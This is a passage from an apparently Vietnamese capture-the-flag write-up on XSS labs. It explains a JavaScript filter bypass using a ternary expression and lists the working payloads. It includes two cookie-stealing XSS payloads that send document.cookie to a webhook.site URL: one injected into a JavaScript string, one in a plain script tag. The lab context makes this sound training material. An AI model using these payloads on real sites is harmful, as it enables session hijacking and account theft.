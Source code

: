 Sau khi check lại payload thì có vẽ như phần `' - document.location` không được thực thi và việc kết hợp toán tử `-` với 1 object là `document.location` thì javascript sẽ cố chuyển object đó về 1 số nào đó và kết quả sẽ là `NaN`

Thử payload khác: `1'?alert`1`:'huhh` —> alert thành công

`var number = '1'?alert`1`:'huhh';` 

(giá trị 1 luôn đúng sẽ thực hiện alert, nếu sai thì sẽ huhh)

payload: `1'?document.location='[//webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data='.concat(document.cookie):'](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=%27.concat(document.cookie):%27a)huhh`

—> Gửi cookie thành công

Tạo url và report cho admin

![DOM_XSS_filter_bypass.png](Images/DOM_XSS_filter_bypass.png)

## Cookie-Arena: [**Steal Cookie**](https://battle.cookiearena.org/challenges/web/steal-cookie)

Lab này không có filter hay gì hết chỉ cần truyền payload gửi cookie vào tab flag là xong

payload: `<script>document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)</script>`
